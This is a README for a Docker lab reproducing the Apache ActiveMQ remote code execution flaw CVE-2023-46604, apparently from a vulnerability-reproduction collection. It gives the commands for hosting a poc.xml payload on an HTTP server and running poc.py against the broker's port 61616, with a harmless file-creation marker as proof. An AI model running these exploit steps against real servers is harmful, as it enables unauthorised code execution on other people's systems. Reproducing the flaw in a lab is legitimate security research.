 # Apache ActiveMQ (Version < 5.18.3) RCE （CVE-2023-46604）

[中文版本(Chinese version)](README.zh-cn.md)

## Environment setup

Enter following commands to build and run the vulnerability environment:

```
docker compose up -d
```

The environment listens to port 61616 and port 8161, of which 61616 is the working port. In this vulnerability exploitation, we only need to use port 61616. When executing the vulnerability verification process, please first access port 8161 to confirm that the service has started successfully.

Visit `http://your-ip:8161/` to see the web page, indicating that the environment has been successfully run.

## Background brief

AApache ActiveMQ has a remote code execution vulnerability. This vulnerability may allow remote attackers with network access privileges to execute arbitrary shell commands by manipulating the serialized class types in the OpenWire protocol, leading to the instantiation of any class on the classpath of the agent.

| Default port | Default Condition                    |
|--------------|--------------------------------------|
| 8161 (web)   | Remote access requires configuration |
| 61616 (tcp)  | Remote access allowed                |

## Exploit

You can quickly start an HTTP server in the folder where the poc.xml file is located using the Python3 http.server module
```shell
python3 -m http.server 6666
```

execute poc.py
```shell
python3 poc.py target port http://ip of http server/poc.xml
```

You can check inside the ActiveMQ container using the following command:

docker exec cve-2023-46604-activemq-1 ls -l /tmp

If you see the output showing that touch /tmp/activeMQ-RCE-success has been executed successfully, then the exploit has worked.

![01.png](01.png)
